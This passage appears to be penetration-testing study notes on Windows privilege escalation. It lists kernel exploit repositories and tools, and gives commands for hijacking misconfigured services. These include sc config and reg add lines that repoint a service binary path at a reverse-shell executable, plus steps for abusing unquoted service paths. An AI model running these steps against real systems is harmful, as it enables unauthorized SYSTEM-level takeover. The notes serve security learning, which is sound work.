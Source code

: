 * Can be leveraged to perform actions as SYSTEM
* Enumerate version and find matchign exploits > compile and execute
* Tools
  * Windows Exploit suggester
  * Precompiled exploits - [https://github.com/Secwiki/windows-kernel-exploits](https://github.com/Secwiki/windows-kernel-exploits)
  * Watson - rasta-mouse - [https://github.com/rasta-mouse/Watson](https://github.com/rasta-mouse/Watson)
* Identification
  * \>whoami
  * \>systeminfo
  * \> wmic qfe get Caption,Description,HotFixID,InstalledOn #will list all installed patches
* Exploit Packs
  * [https://github.com/abatchy17/WindowsExploits](https://github.com/abatchy17/WindowsExploits)
  * [https://github.com/SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)
  * [https://github.com/egre55/windows-kernel-exploits](https://github.com/egre55/windows-kernel-exploits)
  * [https://github.com/padovah4ck/CVE-2020-0683](https://github.com/padovah4ck/CVE-2020-0683)

### Service Exploits

* Service Commands
  * First lets get a list of services that are running on the target and thier permissions
    * \>accesschk.exe -uwcqv \*
    * \>accesschk.exe -uwcqv “Authenticated Users” \*
    * \> Get-WmiObject win32\_service | Select-Object Name, State, PathName | Where-Object {$\_.State -like 'Running'}
    * \>sc.exe qc \[name] -query service config
    * \>sc.exe query \[name] -query service status
    * \>sc.exe config \[name] \[option]= \[value] -modify config option of a service
    * \>net start/stop \[name] -start/stop a service
* Service mis-configs
  * Insecure Service Properties
    * Each service has an ACL to define certain permissions
    * Check: you must be able to change a service AND stop/start the service
    * \>.\winPEASany.exe quiet servicesinfo
    * Verify with accesschk
      * .\accesschk.exe /accepteula -uwcqv user \[service]
    * \>sc qc \[service]
    * If you can change the service, try changing the BINARY\_PATH\_NAME to that over your reverse shell
      * \>sc config \[service] binpath= “\”C:\PrivEsc\reverse.exe\\""
    * \>net start \[service]
* Unquoted Service Paths
  * Executables in windows can be run without their extensions
  * Some executables take arguments separated by spaces
  * Look for paths with spaces and no quotes
  * Check permissions for the service
  * Check for write permissions for each directory in the binary path
  * Create a reverse shell executable and name it to the file that would be inserted into the unquoted path.
  * _PTFM: Unquoted Service Paths - pg. 32_
* Weak Registry Permissions
  * Registry stores entries for each service
  * Since entries can have ACL's, they can be mis-configured and modify a services config.
  * Locate a weak registry entry > verify permissions with accesschk
  * NT AUTHORITY\INTERACTIVE - user group that all users are apart of
  * Overwrite the image path value in the registry, so the called executable in the service, points to your reverse shell
    * \>reg add HKLM\SYSTEM\CurrentControlSet\Services\\\[service] /v ImagePath -t REG\_EXPAND\_SZ /d C:\PrivEsc\Reverse.exe /f
* Insecure Service Executables